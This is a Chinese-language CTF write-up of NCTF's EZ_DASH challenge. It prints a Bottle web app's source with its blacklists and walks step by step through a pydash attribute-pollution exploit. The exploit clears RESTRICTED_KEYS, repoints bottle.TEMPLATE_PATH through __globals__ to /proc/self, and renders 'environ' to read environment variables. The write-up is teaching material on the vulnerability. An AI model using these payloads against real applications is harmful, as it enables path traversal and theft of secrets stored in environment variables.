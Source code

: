 #  Bottle 框架漏洞攻防实录：从原型链污染到 Flag 获取的完整渗透路径   
原创 零漏安全  零漏安全   2025-04-20 19:05  
  
当 Web 应用暗藏原型链污染漏洞，当环境变量成为关键突破口，安全研究员如何抽丝剥茧、突破层层防护？  
  
（题目来源于NCTF的EZ_DASH）  
### 源码  
```
'''
Hints: Flag在环境变量中
'''


from typing import Optional


import pydash
import bottle
//由此可得这是⽤ Python 的 bottle 框架构建的⼀个 Web 应⽤


__forbidden_path__=['__annotations__', '__call__', '__class__', '__closure__',
               '__code__', '__defaults__', '__delattr__', '__dict__',
               '__dir__', '__doc__', '__eq__', '__format__',
               '__ge__', '__get__', '__getattribute__',
               '__gt__', '__hash__', '__init__', '__init_subclass__',
               '__kwdefaults__', '__le__', '__lt__', '__module__',
               '__name__', '__ne__', '__new__', '__qualname__',
               '__reduce__', '__reduce_ex__', '__repr__', '__setattr__',
               '__sizeof__', '__str__', '__subclasshook__', '__wrapped__',
               "Optional","func","render",
               ]
__forbidden_name__=[
    "bottle"
]
__forbidden_name__.extend(dir(globals()["__builtins__"]))
//__forbidden__函数，黑名单

def setval(name:str, path:str, value:str)-> Optional[bool]:
    if name.find("__")>=0: return False
    for word in __forbidden_name__:
        if name==word:
            return False
    for word in __forbidden_path__:
        if path.find(word)>=0: return False
    obj=globals()[name]
    try:
        pydash.set_(obj,path,value)
    except:
        return False
    return True

@bottle.post('/setValue')
def set_value():
    name = bottle.request.query.get('name')
    path=bottle.request.json.get('path')
    if not isinstance(path,str):
        return "no"
    if len(name)>6 or len(path)>32:
        return "no"
    value=bottle.request.json.get('value')
    return "yes" if setval(name, path, value) else "no"

@bottle.get('/render')
def render_template():
    path=bottle.request.query.get('path')
    if path.find("{")>=0 or path.find("}")>=0 or path.find(".")>=0:
        return "Hacker"
    return bottle.template(path)
bottle.run(host='0.0.0.0', port=8000)
```  
###   
### 一、Bottle 框架的双接口  
```
# 核心路由与污染函数  
@bottle.post('/setValue')  
def set_value():  
    name = bottle.request.query.get('name')  
    path = bottle.request.json.get('path')  
    if len(name) > 6 or len(path) > 32: return "no"  
    value = bottle.request.json.get('value')  
    return "yes" if setval(name, path, value) else "no"  
@bottle.get('/render')  
def render_template():  
    path = bottle.request.query.get('path')  
    if "{".encode() in path.encode() or ".".encode() in path.encode():  
        return "Hacker"  
    return bottle.template(path)  
```  
- **/setValue 接口**  
用于处理POST请求、接收名称、路径和值，调用了setval函数，在此路由中，获取了名称name、  
路径  
path，检查  
path  
是否为字符串类型，检查name的长度是否超过6，path长度是否  
超过32，从请求的JSON数据中获取值value  
  
  
- **/render 接口**  
用于处理GET请求，接收模板⽂件路径，并对其进⾏渲染，在此路由中，从请求查询的参数中获取模板⽂件路径path，并检查路径中是否包含 { 、 } 或 . ，最后调⽤bottle.template函数对模板⽂件进⾏渲染并返回结果  
  
## setval(name,path,value)  
##   
  
name----要污染的对象  
  
path----被污染对象的功能点路径  
  
value---想让他成为的值  
```
 name=pydash 
 path:helpers.RESTRICTED_KEYS 
 value:[]
```  
  
解析：寻找pydash库中helpers.RESTRICTED_KEYS的地址，然后设置为空  
```
 name=setval 
 path:_globals_.bottle.TEMPLATE_PATH 
 value:[../../../../proc/self/]
```  
  
解析：寻找setval函数，将该函数往上查询  
****  
globals  
****  
.（__  
globals__  
 会返回一个包含该函数全局命名  
空间  
的字典，  
可通过setval  
函数的作用域链向上访问  
）  
  
再调用bottle框架中的TEMPLATE_PATH（指定模板文件所在的路径），将路径设置为/proc/self/这样访问path时会自动跳  
转  
到这个路径下，当path=environ时，直接渲染环境变量文件  
### 二、原型链污染  
###   
### 1. 绕过 pydash 的安全限制pydash 库的helpers.py中定义了禁止修改的关键属性：  
```
RESTRICTED_KEYS = ("__globals__", "__builtins__")  
```  
### RESTRICTED_KEYS 通常是一个集合（像列表、元组或者集合对象），其作用是存储受限的键名。这些键名往往是出于安全、性能或者避免冲突等原因，在程序里不允许被使用或者访问的。  
###   
### 这里有两个元素，分别是__globals __和__builtins__，到此思路有了，先污染key函数，使它允许我们使用globals，借此污染bottle.TEMPLATE_PATH，使它路径指向../../../../proc/self/，最后在 /render 路由下 GET 传参 path 为 environ ，对其进行渲染，就可以获取环境变量了  
```
name=pydash   # 污染对象是 pydash
path="helpers.RESTRICTED_KEYS" # 路径就是 helpers ⽂件中的 RESTRICTED_KEYS
value=[]        # 清空受限键列表，修改成为的值就是空列表
```  
  
解除对__globals__  
和__builtins__  
的修改限制  
#### 2. 篡改模板路径指向环境变量  
####   
  
通过污染bottle.TEMPLATE_PATH  
，将模板路径指向存储环境变量的系统文件  
```
name=setval # 污染对象是 setval
path:"__globals__.bottle.TEMPLATE_PATH" # 路径是模板⽂件路径
value:[../../../../proc/self] # 修改为的值是存储环境变量⽂件路径，因为题⽬提
示flag在环境变量中
```  
  
###   
### 三、实战  
###   
  
使用bp在/setValue下抓包，先  
解除 pydash 限制，  
再污染模板路径  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9GGhFCliayOSFicL3wYP0RjGljQib7TSrWoX80JaesQG14K8h9xia6JryH4iaS3mt1XZnsZTibV1XsXKZ2HdssAm4ExQ/640?wx_fmt=png&from=appmsg "")  
  
触发  
漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/9GGhFCliayOSFicL3wYP0RjGljQib7TSrWoqAS6BABkIVGmokw3FHSJGHIUkeZDhZOfibVYiaqGpibsR7bPa1z1ItmfA/640?wx_fmt=png&from=appmsg "")  
  
结语  
  
通过两步污染操作突破框架限制，最终利用模板引擎读取环境变量。该案例揭示了原型链污染在框架级漏洞中的典型利用方式，开发中需严格控制对象属性的修改权限。  
  
  
特别说明：  
此篇文章参考了Pai师傅的相关资料，在此对 Pai 师傅的贡献表示诚挚感谢。文章内容在参考基础上进行了整合与拓展，旨在分享 Bottle 框架原型链污染漏洞相关知识。  
  
